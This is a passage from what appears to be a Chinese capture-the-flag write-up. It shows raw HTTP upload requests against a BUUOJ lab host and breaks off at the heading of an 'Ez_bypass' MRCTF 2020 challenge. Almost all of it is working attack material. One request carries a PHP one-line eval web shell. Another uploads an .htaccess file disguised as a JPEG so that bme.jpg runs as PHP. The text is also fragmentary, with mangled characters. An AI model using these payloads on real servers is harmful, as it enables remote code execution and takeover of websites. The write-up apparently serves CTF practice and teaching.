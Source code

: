 ```http

<?php eval($_POST['bme']);?>
------WebKitFormBoundaryWKBrqt1O5reejsLg
Content-Disposition: form-data; name="submit"

ä¸é®å»ä¸
------WebKitFormBoundaryWKBrqt1O5reejsLg--
```

```http
POST /upload.php HTTP/1.1
Host: f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn
Content-Length: 394
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWKBrqt1O5reejsLg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=bd677f20100dbfa043cfaa997a5224dc
Connection: close

------WebKitFormBoundaryWKBrqt1O5reejsLg
Content-Disposition: form-data; name="uploaded"; filename=".htaccess"
Content-Type: image/jpeg

<FilesMatch "bme.jpg">
SetHandler application/x-httpd-php #匹配到的文件按照php解析
AddHandler php5-script .jpg #其他按照jpg解析
</FilesMatch>
------WebKitFormBoundaryWKBrqt1O5reejsLg
Content-Disposition: form-data; name="submit"

ä¸é®å»ä¸
------WebKitFormBoundaryWKBrqt1O5reejsLg--

```

## Ez_bypass

> MRCTF 2020

### 题目

题目一进去给了一大段代码
